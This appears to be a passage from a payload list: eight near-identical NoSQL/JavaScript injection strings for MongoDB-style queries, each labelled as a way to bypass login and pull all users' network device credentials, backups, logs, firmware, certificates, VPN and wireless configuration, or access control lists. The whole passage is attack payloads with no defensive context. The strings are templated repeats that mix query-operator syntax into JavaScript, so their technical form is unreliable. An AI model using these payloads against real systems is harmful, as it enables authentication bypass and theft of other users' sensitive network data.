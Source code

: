 ```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_credentials != null
```

#### Bypass Login and Get All Users' Network Device Backups

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_backups != null
```

#### Bypass Login and Get All Users' Network Device Logs

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_logs != null
```

#### Bypass Login and Get All Users' Network Device Firmware

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_firmware != null
```

#### Bypass Login and Get All Users' Network Device Certificates

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_certificates != null
```

#### Bypass Login and Get All Users' Network Device VPN Configuration

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_vpn_config != null
```

#### Bypass Login and Get All Users' Network Device Wireless Configuration

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_wireless_config != null
```

#### Bypass Login and Get All Users' Network Device Access Control Lists

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_acls != null
```
